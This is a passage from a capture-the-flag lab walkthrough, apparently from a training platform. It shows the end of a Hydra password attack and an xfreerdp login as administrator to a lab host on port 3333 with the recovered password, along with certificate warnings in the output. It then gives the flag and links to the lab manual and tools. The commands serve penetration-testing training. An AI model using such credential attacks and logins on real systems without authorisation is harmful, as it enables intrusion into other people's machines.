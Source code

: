 ```
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-15 08:56:09

```

```
xfreerdp /u:administrator /p:qwertyuiop /v:10.0.16.124:3333
```

```
root@attackdefense:~# xfreerdp /u:administrator /p:qwertyuiop /v:10.0.16.124:3333
[09:04:26:668] [177980:177981] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.0.16.124:3333) 
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - Common Name (CN):
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - 	WIN-OMCNBKR66MN
[09:04:26:693] [177980:177981] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.0.16.124:3333 (RDP-Server):
	Common Name: WIN-OMCNBKR66MN
	Subject:     CN = WIN-OMCNBKR66MN
	Issuer:      CN = WIN-OMCNBKR66MN
	Thumbprint:  81:80:6a:ce:02:6f:0b:ca:67:da:6c:33:13:83:bf:b3:a6:53:a3:12
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y

```

We login in as Administrator, and find flag.txt in `C:\`:

```
port-number-3333
```

## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-1957.pdf

[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

[Identify endpoints speaking the Remote Desktop Protocol (RDP)](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp_scanner/)